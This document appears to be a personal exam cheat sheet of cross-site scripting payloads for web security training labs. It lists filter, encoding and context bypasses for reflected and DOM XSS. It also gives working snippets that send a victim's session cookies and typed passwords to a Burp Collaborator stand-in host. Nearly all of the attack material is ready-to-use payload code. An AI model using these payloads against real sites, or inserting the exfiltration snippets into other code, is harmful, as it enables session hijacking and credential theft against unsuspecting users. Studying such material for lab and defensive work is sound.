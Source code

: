 # Exam Notes

- XSS context is **within html tags** 
	- **with no encoding**
	```html
		<script>alert(document.domain)</script>
	```  
	- **most tags and attributes blocked**
		- Using burp Intruder, identify any allowed tags and relevant event hanndlers. 
		- Example 1: When **only body tag is allowed** we can craft a payload using **iframe** 
			- **Browsers when rendering html only allow one *body* tag and merge any events related to inner body tags to the parent body tag. So, in our scenario if we try to inject a body tag with events into our search field, our inner body tag gets removed and the event gets added to the parent body tag.**
			```html
			<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
		  ``` 
		- Example 2: When **only custom tags are allowed** we can craft a payload that will be automatically:
		```html
			<script>location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';</script>
	   ```
		- Example 3: When **only svg tag is allowed** our payload will be: 
		```html
			<svg><animatetransform onbegin=alert(1) attributeName=transform>
		```
	- When our XSS context is within a **canonical link tag** our payload would be: **(Make sure there are no spaces in the payload)**.
	```javascript
		accesskey='x'onclick'alert(1)
	``` 

> **🗒️ NOTE**
> When trying to find xss make sure to validate all instances of our input within the response. The application might not be implementing encoding or escaping on all those instances.

- If xss context is **into an attribute**
	- **angle brackets html encoded**
		- Example 1: When XSS context is within **value attribute for an input tag**.
		- We are adding **`x="`** to repair the markup from being broken
		```javascript
		" autofocus onfocus=alert(document.domain) x="
	   ```
	- **double quotes encoded and xss context is within `href` attribute**
		- **`href`** is considered to be a scriptable context. There are other html attributes that act as scriptable contexts by themselves. 
		- We make use of javascript **pseudo-protocol** to execute our payload: 
		```javascript
		javascript:alert(document.domain)
		```

- If xss context is into **JavaScript**
	- **xss context is within a JS string and angle brackets are html encoded**
		- We need to break out of it to introduce javascript code
			```javascript
			';alert(document.domain)//` 
			'-alert(document.domain)-'
		   ```

	- **xss context is with JS string when single quote and backslash escaped**
		- **Browsers first perform html parsing to idenfity page elements and then parse javascript to understand and execute embedded scripts.**
		- **Even though our payload breaks the markup it doesn't prevent the subsequent script from being parsed and executed in a normal way.**
		- We can craft our payload using the above information: 
		  ```html
		  	</script><img src=1 onerror=alert(document.domain)>;
		  ```
  
	- **angle brackets and double quotes html encoded and single quotes escaped**
		- To break out of the string we will append a **`\`** backslash character to our payload: **`\\';alert(document.domain)//`**
		- ***Here, the first backslash means that the second backslash is interpreted literally, and not as a special character. This means that the quote is now interpreted as a string terminator, and so the attack succeeds.***

	- **within existing javascript in a quoted tag attribute such as `onclick` event with `<>`, and `"` html encoded and `'`, and `\` escaped**
		- Consider and example: 
		```html
		<a href="#" onclick="... var input='controllable data here'; ...">
		```
		- To break out of the string and execute our payload we will make use of: 
		```javascript
		&apos;-alert(document.domain)-&apos;
		```
		- ***Browser's usually HTML-decode the value of the `onclick` attribute before the JavaScript is interpreted, the entities are decoded as quotes, which become string delimiters, and so the attack succeeds.***

	- **Using template literals \`\` (input within backticks)** 
		- We can introduce **embedded expressions `${...}`** with javascript code inside: **`${alert(document.domain)}`**

- **Stealing session cookies**
	- Identify the xss context to craft our payload
	- Start burp collaborator and copy the payload url to clipboard
	- Use the following payload to deliver exploit to our victim: 
	```javascript
	<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>
	```

- **capturing passwords**
	- Identify xss context to craft our payload
	- Start burp collaborator and copy payload url to clipboard
	- Use the following payload to deliver exploit to our victim:
	```html
		<input name="username" id="username">
		<input type="password" name="password" onchange="if(this.value.length) fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
		   method: 'POST',
		   mode: 'no-cors',
		   body: username.value + ':' + this.value
		});">
	```
	- Browsers typically enforce **same-origin-policy** which restricts making a request to a different domain. To bypass this we set **mode: no-cors**.

### DOM XSS
- **source `location.search` and sink `document.write`**
	- **document.write allows executing `<script>` tags** and our payload will be:
	```html
		<script>alert(document.domain)</script>
	```
	- **terminating any strings** to excute our payload:
		1. consider our input is within:
		 ```javascript
			document.write('<img src="/resources/images/tracker.gif?searchTerms='+attacker controllable input+'">');
		```
		2. Our payload will now be:
		```html
			'"><script>alert(document.domain)</script>
	   ```
	- **terminating any tags** to execute our payload:
		1. consider our input is within:
		 ```javascript
			document.write('<select name="...attacker controllable input...">')
		```
		2. Our payload will now be:
		```html
		   "><script>alert(document.domain)</script>
	   ```
- **source `location.search` and sink `innerHTML`**
	- **innerHTML doesn't allow `<script>` tags**, alternatively we can use **`img`** tags to execute our code:
	```html
		<img src=1 onerror=alert(document.domain)>
	```
- **source `location.search` and sink jQuery anchor `href` attribute**
	- Consider an example where the value of **returnPath** is being set to a **href** attribute within an anchor tag which has an id **backLink**:
	```javascript
		<script>
			$(function() {
				$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
			});
		</script>
	```
	- If the **returnPath** is **attacker controllable input** then we can use javascript **pseudo-protocol** to execute our payload:
	```javascript
		javascript:alert(document.domain)
	```
- **source `location.hash` and sink jQuery slection function `$()`**
	- Complete the lab again
- **angularJS expression with angle brackets and double quotes html encoded**
	- Complete the lab again
- **source `location.search` and sink `eval()`**
	- Consider an example where our input is reflected within a json response that will eventually get passed to an **`eval()`**
	- We will the following payload to break out of json and call our javascript code: 
	```javascript
		"-alert()}//
	```
- **When `replace` is used for sanitization**
	- Consider an example where our input is sanitized using the javascript function **`replace`** instead of **`replaceAll`**
	- If the function tries to replace **`<`** and **`>`** then we can craft a payload that would be: 
	```html
		<><img src=1 onerror=alert(1)>
	```
	

